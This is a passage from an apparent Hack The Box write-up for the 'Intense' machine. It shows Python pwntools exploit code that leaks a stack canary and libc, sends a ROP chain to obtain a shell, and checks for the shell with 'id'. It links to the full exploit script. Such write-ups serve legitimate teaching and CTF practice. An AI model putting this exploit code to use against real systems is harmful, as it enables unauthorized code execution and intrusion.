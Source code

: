 ```python
# Get shell
def exploit(canary, rbp):
    log.info("Stage 3 - Using ropchain to get shell")
    io = startup()
    clear()
    ropchain(io, canary,rbp, shell_chain()) # Send ropchain to get shell
    if checkShell(io): # Check if we got shell and go interactive
        io.interactive()
    else:
        raise Exception("Did not get a shell!")
```

We simply write the ropchain to the stack and run `checkShell`  to see if we got a shell.

```python
# Check, if we got a shell
def checkShell(shell):
    try:
        shell.sendline("id") # Send id to server
        id = shell.recvline().rstrip().decode() # Receive response

        # Check if we got a valid response
        if "uid=" in id:
            log.success("Got shell as %s!" % id)
            return True # Got shell
        else:
            raise Exception
    except:
        log.warning("Sees like we did not get a shell! DEBUG: %s" % id)
        return False # Did not get a shell
```

Now putting all the pieces together we get following code: (The full [exploit.py](https://github.com/chr0x6eos/HTB/blob/master/Intense/exploit.py) is available at my [GitHub](https://github.com/chr0x6eos/HTB)).

```python
# Main function
def main(counter=0): 
    try:
        print_logo()
        # Leak canary and rbp
        canary, rbp = leak_stack()
        # Leak libc
        leak_libc(canary, rbp)
        quit()
        # Get shell
        exploit(canary, rbp)
    except Exception as ex:
        counter += 1
        log.debug(f"Exception: {ex}")
        if counter == 3:
            log.warning("Could not get shell after 3 tries! Exiting...")
            quit()
        main(counter)
```
